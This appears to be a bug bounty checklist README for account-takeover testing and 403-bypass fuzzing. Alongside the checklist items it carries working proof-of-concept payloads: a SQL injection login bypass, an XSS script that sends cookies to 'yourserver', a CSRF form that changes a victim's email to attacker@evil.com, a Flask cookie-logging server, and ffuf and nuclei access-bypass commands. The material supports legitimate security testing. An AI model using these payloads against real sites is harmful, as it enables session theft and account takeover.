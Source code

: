 # Bugbounty Checklist

## Account Takeover Checklist

- login:
    - [ ] check if you are able to brute force the password

    - [ ] Test for OAuth misconfigurations

    - [ ] check if you are able to bruteforce the login OTP

    - [ ] check for JWT mesconfigurations

    - [ ] Test for SQL injection to bypass authentication

        ```admin" or 1=1;--```
    - [ ] check if the application validates the OTP or Token

- password reset:
    - [ ] check if you are able to brute force the password reset OTP

    - [ ] test for token predectability

    - [ ] test for JWT misconfigurations

    - [ ] check if the password reset endpoint is vulnerable to IDOR

    - [ ] check if the password reset endpoint is vulnerable to Host Header injection

    - [ ] check if the password reset endpoint is leaking the token or OTP in the HTTP response

    - [ ] check if the application validates the OTP or Token
    
    - [ ] test for HTTP parameter Pollution (HPP)
    

- XSS to Account Takeover
    - [ ] if the application does not use auth token or you can't access the cookies because the "HttpOnly" flag, you can obtain the CSRF token and craft a request to change the user's email or password       

    - [ ] try to exfiltrate the cookies

    - [ ] try to exfiltrate the Auth Token

    - [ ] if the cookie's "domain" attribute is set, search for xss in the subdomains and use it to exfiltrate the cookies

    - PoC Example:
        ```html
        <script>
            /*
            this script will create a hidden <img> element
            when the browser tries to load the image
            the victim's cookies will be sent to your server
            */

            var new_img = document.createElement('img');
            new_img.src = "http://yourserver/" + document.cookie;
            new_img.style = 'display: none;'
            document.body.appendChild(new_img);
        </script>

        ```

- CSRF to Account Takeover

    - [ ] check if the email update endpoint is vulnerable to CSRF

    - [ ] check if the password change endpoint is vulnerable to CSRF

    - PoC Example:
        ```html
            <html>
                <head>
                    <title>CSRF PoC</title>    
                <head>
                <body>
                    <form name='attack' action='https://example.com/update-email' method='POST'>
                        <input type="hidden" name="new_email" value="attacker@evil.com">
                        <input type="submit" name="submit" value="submit" hidden>
                    <form>
                    <script>
                        document.attack.submit.click()
                    </script>
                </body>
            </html>
        ```

- IDOR to Account Takerover

    - [ ] checck if the email update endpoint is vulnerable to IDOR

    - [ ] check if the password change endpoint is vulnerable to IDOR

    - [ ] check if the password reset endpoint vulnerable to IDOR

- subdomain takeover:
    - [ ] first-order: check if you can takeover xyz.example.com, you can host any malicious code to steal users info or cookies
    - PoC Example
        ```python
        #!/usr/bin/python3
        from flask import *

        app = Flask(__name__)

        @app.route('/')
        def cookie_sniffer():
            for c_name, c_value in request.cookies.items():
                print(c_name + ': ' + c_value)
            return 'Hello, world'
        if __name__ == '__main__':
            app.run(port=80)
        ```
    - [ ] second-order (broken link hijacking): if you found a broken link in a webpage (https://nonexistentlink.com/app.js) and you can takeover this domain, you can host any malicious javascript file and use it to steal users info or cookies
    - PoC Example
        ```javascript
        user_cookies = {
            "cookies": document.cookie
        }

        var xhttp = new XMLHttpRequest();
        xhttp.open("POST", "/store-cookies", true);
        xhttp.send(JSON.stringify(user_cookies));
        ```

# 403 Bypass



## FFUF

- [ ] Path fuzzing

```bash
ffuf -w 403_url_payloads.txt -u http://example.com/auth_pathFUZZ -fc 403,401,400
```



- [ ] HTTP Header Fuzzing

```bash
ffuf -w 403_bypass_header_names.txt:HEADER -w 403_bypass_header_values.txt:VALUE -u http://example.com/auth_path -H "HEADER:VALUE" -fc 403,401,400
```



- [ ] Common HTTP Ports Fuzzing

```bash
ffuf -w common-http-ports.txt:PORT -u http://example.com/auth_path -H "Host: example.com:PORT" -fc 403,401,400
```



- [ ] HTTP Methods Fuzzing

```bash
ffuf -w http-methods.txt:METHOD -u http://example.com/auth_path -X "METHOD" -fc 403,401,400
```



- [ ]  User Agent Fuzzing

```bash
ffuf -w user-agents.txt:AGENT -u http://example.com/auth_path -H "User-Agent: AGENT" -fc 403,401,400
```



## nuclei

```bash
nuclei -u http://example.com/auth_path/ -t 403-bypass-nuclei-templates -tags fuzz -timeout 10 -c 200 -v
```

**Note**: Add the slash symbol after the path whether it is a directory or file

Example:

- http://example.com/directory/
- http://example.com/directory/file.ext/

### Sources

- https://docs.google.com/presentation/d/1ek6DzXKBQd6xUiVNGRT33pMACs8M13CSoYCkgepDKZk/edit#slide=id.gaa5321e139_0_0
- https://github.com/Karanxa/Bug-Bounty-Wordlists/blob/main/403_header_payloads.txt
- https://github.com/Karanxa/Bug-Bounty-Wordlists/blob/main/403_url_payloads.txt
- https://github.com/iamthefrogy/frogy/blob/main/ports
- https://annevankesteren.nl/2007/10/http-methods
- https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/User-Agents/UserAgents.fuzz.txt

